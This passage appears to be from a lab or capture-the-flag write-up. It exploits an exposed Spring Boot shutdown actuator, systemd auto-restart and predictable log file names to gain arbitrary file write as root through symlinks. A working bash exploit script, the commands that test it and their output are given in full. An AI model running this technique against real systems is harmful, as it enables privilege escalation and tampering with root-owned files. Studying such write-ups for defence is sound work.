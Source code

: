 We notice [`Restart=always`](https://www.freedesktop.org/software/systemd/man/systemd.service.html#Restart=) which means if service is stopped/crashed for any reason it will be restarted automatically. But how can we stop the application?

Let's remember the endpoints we gained access earlier;

```
management.endpoints.web.exposure.include=health,env,beans,shutdown,mappings,restart
```

so we can just use `shutdown` actuator to stop the application.

### Testing Arbitrary File Write

So let's list steps the better understand how this will work,

1. Send a request to `/actuator/shutdown`,
2. Create symlinks to target file in `/home/johnsmith/tomcatlogs/<epoch_time>.log`,
3. Application Stops,
4. Systemd kicks in and restarts the service,
5. If we created the symlink correctly, insted of creating a new file, `tee` follows our symlink and we get to write webserver output to anyfile we want as root.

Let's write a script for this;

```
target=$1

#send a shutdown request to the spring boot server
curl -X POST https://localhost/actuator/shutdown -H 'x-9ad42dea0356cb04: 172.16.0.21' -k

#get date as epoch format
d=$(date '+%s')

#let's assume 30 seconds is enough to restart the service
for i in {1..30}
do
 #create symlinks to target file for 30 seconds
 let time=$(( d + i ))
 ln -s $target "$time.log"
done
```

put it under `/home/john/tomcatlogs/` and call it with a temp file to see if we get it right;

```
bash arbitrary_file_write.sh /tmp/arbitrary_file_write.test
```

```
{"message":"Shutting down, bye..."}
```

```
ls -la
```

```
total 228                                                                                                                                                                                                   
drwxrwxr-x 2 johnsmith johnsmith   4096 Jul 12 12:12 .                                                                                                                                                      
drwxr-xr-x 7 johnsmith johnsmith   4096 Jul 10 19:57 ..                                                                                                                                                     
-rw-r--r-- 1 root      root        6928 Jul 10 19:42 1594410148.log                                                                                                                                         
```